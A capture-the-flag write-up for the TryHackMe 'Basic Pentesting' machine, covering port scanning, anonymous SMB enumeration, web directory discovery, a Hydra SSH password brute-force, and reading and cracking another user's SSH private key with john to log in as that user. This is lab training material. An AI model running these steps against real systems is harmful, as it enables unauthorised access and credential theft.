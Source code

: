  # Writeup for: TryHackMe Basic Pentesting
Difficulty: Easy

Cathegory: Boot2Root

File Attached: -


## Deploy the machine and connect to our network

Nothing to do 


## Find the services exposed by the machine

nmap -A -p- <ip> 

22 			ssh
80 			Webserver
139 		SMB
445 		SMB
8009 		Apache JSERV
8080		Apache Tomcat 9.0.7s


What I recommend on this is:


1. SMB 
2. Enumerate Webserver
3. Everything else


We know that SMB is there so....

enum4linux <ip>

which gives up /anonymous directory 

so...

smbclient //<ip>/anonymous

dir

this gives us the "staff.txt"

get staff.txt

exit

and now cat 

cat staff.txt

which gives us the usernames:

-> Jan
-> Kay

## What is the name of the hidden directory on the web server(enter name without /)? 

gobuster dir -u <ip> -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

/development

## User brute-forcing to find the username & password

So, Jan Time to get your password!

## What is the Password?
We use a Tool Called Hydra for this 

Hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<ip>

## What service do you use to access the Server?

There is only one left to use :) ssh 


Now we can use ssh

ssh jan@<ip> 

## Enumerate the machine to find any vectors for privilege escalation 




cd /home



cd kay

ls -lah

cd .ssh

cat id_rsa

now copy this to your kali machine

touch id_rsa

nano id_rsa

<paste>

<save>

chmod 600 id_rsa

/usr/share/john/ssh2john.py id_rsa > pass_hash.txt

sudo john --wordlist/usr/share/wordlists/rockyou.txt pass_hash.txt

ssh -i id_rsa kay@<ip>

## What is the name of the other user you found(all lower case)? 

You Just logged in as him :)

The Rest is up to you!